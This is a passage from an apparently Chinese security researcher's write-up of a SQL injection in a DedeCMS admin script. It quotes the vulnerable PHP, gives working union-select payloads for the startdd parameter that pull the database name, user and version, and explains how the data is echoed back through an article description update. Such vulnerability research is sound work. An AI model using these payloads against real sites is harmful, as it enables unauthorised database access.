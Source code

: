 ```php
        continue;
    }
    $des = trim(addslashes(cn_substr($bodytext,$dsize)));
    if(strlen($des)<3)
    {
        $des = "-";
    }
    $dsql->ExecuteNoneQuery("UPDATE #@__archives SET description='{$des}' WHERE id='{$row['id']}';");
}
```

`$startdd`没有使用单引号进行闭合就拼接到语句中,由此造成了sql注入,利用前提是网站中要存在一篇文章

前面提到,这个`Execute`的报错判断为永假,因此无法进行报错注入,而这个联合查询是没有直接回显的,因此可以利用后面的`update`语句对文章的`description`的更新将数据回显出来,这里的`description`来源于`$body = $row[$field];`,因此要注意回显参数的位置

注意到`$fquery`中存在`{$table}.aid`,因此`$table`要存在`aid`列

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203091626520.png)

结合上面的信息可以构造注入参数如下

```
dojob=des&totalnum=10&dsize=250&table=dede_addonarticle&field=aid&  startdd=0,1 union select 1,2,3,database()#
```

拼接得到的联合查询语句为

```
SELECT dede_archives.id,dede_archives.title,dede_archives.description,dede_addonarticle.aid              FROM dede_archives LEFT JOIN dede_addonarticle ON dede_addonarticle.aid=dede_archives.id              WHERE dede_archives.channel='0'  LIMIT 0,1 union select 1,2,3,database()#,100 ;
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203091925187.png)

最终得到的`update`语句为

```
UPDATE dede_archives SET description='dedecms' WHERE id='1';
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203091928779.png)

```
dojob=des&totalnum=10&dsize=250&table=dede_addonarticle&field=aid&  startdd=0,1 union select 1,2,3,group_concat(user(),version())#
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203091931186.png)

同一文件中的`$dojob=='page'`貌似也存在注入,但是时间所限,没有去测试

### co_do.php

